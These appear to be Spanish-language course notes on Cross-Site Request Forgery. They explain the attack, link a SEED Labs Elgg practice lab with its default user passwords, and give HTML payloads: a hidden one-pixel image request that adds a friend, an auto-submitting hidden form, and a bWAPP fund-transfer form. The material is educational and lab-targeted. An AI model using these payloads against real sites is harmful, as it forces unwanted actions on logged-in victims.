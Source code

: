 # Cross-Site Request Forgery (CSRF o XSRF)

Tags: #CSRF #OWASP #Explotacion 

El **Cross-Site Request Forgery** (**CSRF**) es una vulnerabilidad de seguridad en la que un atacante **engaña** a un usuario legítimo para que realice una acción no deseada en un sitio web sin su conocimiento o consentimiento.

En un ataque CSRF, el atacante engaña a la víctima para que haga clic en un enlace malicioso o visite una página web maliciosa. Esta página maliciosa puede contener una solicitud HTTP que realiza una acción no deseada en el sitio web de la víctima.

Por ejemplo, imagina que un usuario ha iniciado sesión en su cuenta bancaria en línea y luego visita una página web maliciosa. La página maliciosa contiene un formulario que envía una solicitud HTTP al sitio web del banco para transferir fondos de la cuenta bancaria del usuario a la cuenta del atacante. Si el usuario hace clic en el botón de envío sin saber que está realizando una transferencia, el ataque CSRF habrá sido exitoso.

El ataque CSRF puede ser utilizado para realizar una amplia variedad de acciones no deseadas, incluyendo la transferencia de fondos, la modificación de la información de la cuenta, la eliminación de datos y mucho más.

Para prevenir los ataques CSRF, los desarrolladores de aplicaciones web deben implementar medidas de seguridad adecuadas, como la inclusión de tokens CSRF en los formularios y solicitudes HTTP. Estos tokens CSRF permiten que la aplicación web verifique que la solicitud proviene de un usuario legítimo y no de un atacante malintencionado (aunque cuidado que también se pueden hacer cositas con esto).

Os compartimos a continuación el enlace al comprimido ZIP que utilizamos en esta clase para desplegar el laboratorio donde practicamos esta vulnerabilidad:

-   **Lab Setup**: [https://seedsecuritylabs.org/Labs_20.04/Files/Web_CSRF_Elgg/Labsetup.zip](https://seedsecuritylabs.org/Labs_20.04/Files/Web_CSRF_Elgg/Labsetup.zip)
```bash 
# Usuarios del lab 
alice:seedalice
samy:seedsamy
```

## HTML
En el CSRF podemos modificar todos aquellos campos en donde no sea necesaria una autenticación en caso de no tener las credenciales. Pero si las tenemos claro que podemos modificar cualquier tipo de campo. 
* Son muy comunes en ataques de phishing
* La persona debe de estar logeada en la web donde esta el CSRF, y al momento de que abra el enlace, este pueda hacer los cambios como (Passwd, campos críticos, etc...)


Este tipo de scripts se deben de hacer en html, en donde sabemos que podemos hacer acciones en el mismo sitio tramitando data con la url.
```html
<img src="http://www.seed-server.com/action/friends/add?friend=57" alt="image" width="1" height="1" />  <!-- Enviaremos un html de una 'imagen' con un codigo-->
```
Desde la parte de action es para agregar un amigo en el lab de la pagina anterior. Por lo que al momento de mandarlo a alguien y este abra el correo o url, automáticamente se le agregara el amigo con ese identificador que en este caso es 57.  La acción va de la mano con el identificador del usuario a atacar.


```html
<html>
  <body>
    <form action="http://dominio/recurso" method="GET/POST">
      <input type="hidden" name="appsec" value="appsec" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```


```html 
<div id="main">
    
    <h1>CSRF (Transfer Amount)</h1>

    <p>Amount on your account: <b> 1000 EUR</b></p>

    <form action="[http://bwapp.xyz/csrf_2.php](view-source:http://bwapp.xyz/csrf_2.php)" method="GET">

        <p><label for="account">Account to transfer:</label><br />
        <input type="text" id="account" name="account" value="223-45678-90"></p>

        <p><label for="amount">Amount to transfer:</label><br />
        <input type="text" id="amount" name="amount" value="100"></p>

        <button type="submit" name="action" value="transfer">Transfer</button>   

    </form>
    
</div>
```

